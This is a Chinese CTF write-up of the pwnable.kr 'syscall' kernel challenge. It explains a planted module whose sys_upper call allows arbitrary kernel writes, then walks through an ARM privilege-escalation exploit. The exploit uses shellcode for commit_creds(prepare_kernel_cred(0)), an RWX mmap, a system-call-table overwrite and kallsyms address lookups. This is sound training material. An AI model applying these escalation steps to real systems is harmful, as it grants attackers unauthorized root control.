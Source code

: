 # Pwnable.kr syscall 

题目其实很简单，但这是第一次遇到内核权限提升，知道了很多新鲜的东西，所以记录一下。

## 原始文件

下面是原始的内核模块源码，其中 `initmodule` 就是把模块加载到内存的函数，任何内核模块源码都要实现这个函数。

可以看到源文件其实真的很简单，它定义了 `sys_upper` 函数，然后通过 `sct[NR_SYS_UNUSED] = sys_upper;` 把 `sys_upper` 函数添加到内核的系统调用表中。

这个 `sys_upper` 可以修改任意地址，只是修改的内容不包含小写字母。

```cpp
#define SYS_CALL_TABLE		0x8000e348		// manually configure this address!!
#define NR_SYS_UNUSED		223

//Pointers to re-mapped writable pages
unsigned int** sct;

asmlinkage long sys_upper(char *in, char* out){
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i]>=0x61 && in[i]<=0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}

static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}

static void __exit exitmodule(void ){
	return;
}

module_init( initmodule );
module_exit( exitmodule );
```

## 一些说明

1\. Linux 内存空间中，低地址是用户进程可访问的，而高地址处则是属于内核。例如，在 x86 的机器上，`0x00000000` 到 `0xbfffffff` 是属于进程的，而 `0xc0000000` 到 `0xffffffff` 属于内核。用户进程无法访问属于内核内存地址，反过来，内核可以访问属于进程的内存。请注意，上面这些都是虚拟地址，和物理地址没有任何关联。

2\. Linux 系统运行时，系统调用表的地址是固定的（同样，是指虚拟地址）。

3\. Linux 系统下每个进程拥有其对应的 `struct cred`，记录该进程的 uid。如果要修改 uid，需要在内核空间中执行：
```cpp
// 修改 uid 为 new_uid，root 的 uid 是 0
// prepare_kernel_cred 创建一个新的 cred
// commit_creds 表示把这个 cred 设置为当前进程的 cred
commit_creds(prepare_kernel_cred(new_uid));
```
4\. kallsyms 命令可以帮助我们查找系统调用表的具体位置。如查找 vmsplice 的地址，可以输入 `cat /proc/kallsyms | grep sys_vmsplice`。同理，像 `commit_creds` 和 `prepare_kernel_cred` 也是系统调用，所以都可以用 kallsyms 找到。

kallsyms 具体含义：
```
1. 简单介绍
在 2.6 内核中，为了更好地调试内核，引入了kallsyms. kallsyms 抽取了内核用到的所有函数地址(全局的, 静态的)和非栈数据变量地址，生成一个数据块，作为只读数据链接进 kernel image，相当于内核中存了一个 System.map。
当然这个可以用户决定是否使用这个机制，使用 kallsyms 需要编译内核，配置选项要把 CONFIG_KALLSYMS 相关的设置好，见下文。

2. 相关文件
./scripts/kallsyms.c 负责生成 System.map
./kernel/kallsyms.c 负责生成 /proc/kallsyms
/proc/config.gz 内核编译选项

3. 内核编译
# 符号表中包含所有的函数
CONFIG_KALLSYMS=y   
# 符号表中包括所有的变量(包括没有用EXPORT_SYMBOL导出的变量)
CONFIG_KALLSYMS_ALL=y 
CONFIG_KALLSYMS_EXTRA_PASS=y

4. 详细作用
可以理解成是一个简单的数据块(符号和地址对应)，并将此链接进 vmlinux 中去。如此，在需要的时候，内核就可以将符号地址信息以及符号名称都显示出来，方便开发者对内核代码的调试。完成这一地址抽取+数据快组织封装功能的相关子系统就称之为 kallsyms。
反之，如果没有 kallsyms 的帮助，内核只能将十六进制的符号地址呈现给外界，因为它能理解的只有符号地址，而并不包括人类可读的符号名称。用途的话，比如出错时，即产生 Oops 时，打印的信息不仅有地址，还有对应函数名，比较具有可读性。
```

## 思路

1. 编写 shellcode
2. 用户空间分配一块内存，并且把 shellcode 写进去
3. 利用上面的 `sys_upper` 函数，修改内核的系统调用表，把某个系统调用地址改为 shellcode 的地址
4. 调用这个篡改的系统调用，从而执行 shellcode

### Step1: 编写 shellcode

对于内核的 exploit，不是就 `cat flag` 完事，而是要进行提权操作。其实就是前面第 3 条所说的，用 `commit_creds` 和 `prepare_kernel_cred` 修改 uid 为 0，即改成 root 权限。

代码如下：
```cpp
char *shellcode = "\xf0\x4f\x2d\xe9" //push
                  "\x02\x40\xa0\xe1" //mov r4, r2
                  "\x31\xff\x2f\xe1" //blx r1
                  "\x04\x10\xa0\xe1" //mov r1, r4
                  "\x31\xff\x2f\xe1" //blx r1
                  "\xf0\x4f\xbd\xe8" //pop
                  "\x1e\xff\x2f\xe1"; //bx lr
```

汇编代码可以通过如下方式得到：
```bash
$ rasm2 -a arm 'mov r1, r4'
0410a0e1
```

上面这个 shellcode 来自：https://rk700.github.io/2016/11/11/pwnable-kr-syscall/

执行这个 shellcode 时需要传入参数 `0`、`prepare_kernel_cred` 和 `commit_creds` 的地址。即最后实际上是：
```cpp
shellcode(0, prepare_kernel_cred, commit_creds);
```


### Step2: 分配内存并写进去

这个就太简单了，就用上面的 `shellcode` 变量就行了。

当然，如果担心 `shellcode` 是栈空间不能执行，或者 `shellcode` 地址中包含小写字母从而无法被 `sys_upper` 函数利用，那么可以使用 `mmap` 分配一块内存，然后写进去。

```cpp
void *src = 0x40801000;
void *res = mmap(src, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_FIXED|MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
memcpy(res+0x10, shellcode, 28);
```

### Step3: 利用 `sys_upper` 修改内核的系统调用表

调用就可以了，这里的 `sys_vmsplice` 就是我们向篡改的系统调用表的地址。通过 `cat /proc/kallsyms | grep sys_vmsplice` 可以找到 `sys_vmsplice` 的地址。
```cpp
#define SYS_UPPER 223

// 修改 sys_vmsplice 系统调用，地址和偏移量可以用 kallsyms 找到
#define OVERWRITTEN 343
void * sys_vmsplice = (void *)0x800e3dc8;
syscall(SYS_UPPER, grant_privs, sys_vmsplice);
```

### Step4: 调用篡改的系统调用

```cpp
// prepare_kernel_cred 和 commit_creds 的地址可以用 kallsyms 找到
syscall(OVERWRITTEN, 0, prepare_kernel_cred, commit_creds);
```

### 番外

这篇文章有另一种 shellcode: http://alkalinesecurity.com/blog/ctf-writeups/pwnable-challenge-syscall/

```
.data:00000008 b501 push {r0, lr}	      
.data:0000000a 1a92 subs r2, r2, r2	      
.data:0000000c 1c10 adds r0, r2, #0	      
.data:0000000e 46f0 mov r8, lr	      
.data:00000010 4a02 ldr r2, [pc, #8] ; (0x0000001c)	;char c = src[i]
.data:00000012 4790 blx r2	      
.data:00000014 4a02 ldr r2, [pc, #8] ; (0x00000020)	;dst[i] = c
.data:00000016 321c adds r2, #28	      
.data:00000018 4790 blx r2	;i++
.data:0000001a bd01 pop {r0, pc}	
      
.data:0000001c 8003f924
.data:00000020 8003f550
```
```
/ $ cat /proc/kallsyms|grep commit_creds
8003f56c T commit_creds
8044548c r __ksymtab_commit_creds
8044ffc8 r __kstrtab_commit_creds
/ $ cat /proc/kallsyms|grep prepare_kernel
8003f924 T prepare_kernel_cred
80447f34 r __ksymtab_prepare_kernel_cred
8044ff8c r __kstrtab_prepare_kernel_cred
```

> 博客原文：I gotta say this is my prettiest exploit. I put some artistry into this one. But the first thing to attempt is commit_creds(prepare_kernel_cred(0)) code that avoids null bytes and lower case characters. After a lot of finagling I came up with the following assembly:

这个 shellcode 可以不调用参数，已经用了一些 trick 把 prepare_kernel_cred 和 commit_creds 的地址写进去了，即最后直接执行：
```cpp
// 原来是 syscall(OVERWRITTEN, 0, prepare_kernel_cred, commit_creds);
syscall(OVERWRITTEN);
```

## 参考

1. http://alkalinesecurity.com/blog/ctf-writeups/pwnable-challenge-syscall/
2. https://rk700.github.io/2016/11/11/pwnable-kr-syscall/